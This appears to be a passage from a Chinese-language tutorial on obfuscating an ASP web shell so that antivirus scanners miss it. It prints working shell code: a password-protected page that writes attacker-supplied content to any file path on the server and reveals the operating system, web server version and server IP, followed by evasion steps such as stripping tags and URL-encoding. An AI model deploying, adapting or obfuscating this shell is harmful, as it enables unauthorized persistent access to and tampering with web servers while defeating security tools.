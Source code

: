 ```
<%="操作系统为:"&Request.ServerVariables("OS")%>
<%="<br>"%>
<%="WEB服务器版本为:"&Request.ServerVariables("SERVER_SOFTWARE")%>
<%="<br>"%>
<%="服务器的IP为:"&Request.ServerVariables("LOCAL_ADDR")%>
<%="<br>"%>
<%=""%>
<%="<textarea name=da cols=50 rows=10 width=30></textarea>"%>
<%="<br>"%>
<%="<input type=submit value=save>"%>
<%="</form>"%>
<%end if%>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900427239-1d1aa604-cd29-41e6-b1d5-e29f89334513.png)

因为只是举例子，就找一个具有文件保存的大马

扫一下不出意外的被杀

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900427428-f7ccf646-4003-4b52-aff7-b03a034cc431.png)

### 代码处理

首先把多余的标签给去掉，只留下中间的代码

**如果采用url编码的话一定要去掉里面所有的中文！**

**否则会一直报未结束的字符串常量错误**

```
on error resume next
  if request("pass")="g" then
  session("pw")="go"
  end if
if session("pw")<>"go" then 
response.write("<center><br><form action='' method='post'>")
response.write("<input name='pass' type='password' size='10'> <input ")
response.write("type='submit' value='test'></center>")
else
set fso=server.createobject("scripting.filesystemobject")
path=request("path")
if path<>"" then
data=request("da")
set da=fso.createtextfile(path,true)
da.write data
if err=0 then
response.write("yes")
else
response.write("no")
end if
err.clear
end if
da.close
set da=nothing
set fos=nothing
response.write("<form action='' method=post>")
response.write("<input type=text name=path>")
response.write("<br>")
response.write("path:"&server.mappath(request.servervariables("script_name")))
response.write("<br>")
response.write("os:"&Request.ServerVariables("OS"))
response.write("<br>")
response.write("WEB:"&Request.ServerVariables("SERVER_SOFTWARE"))
response.write("<br>")
```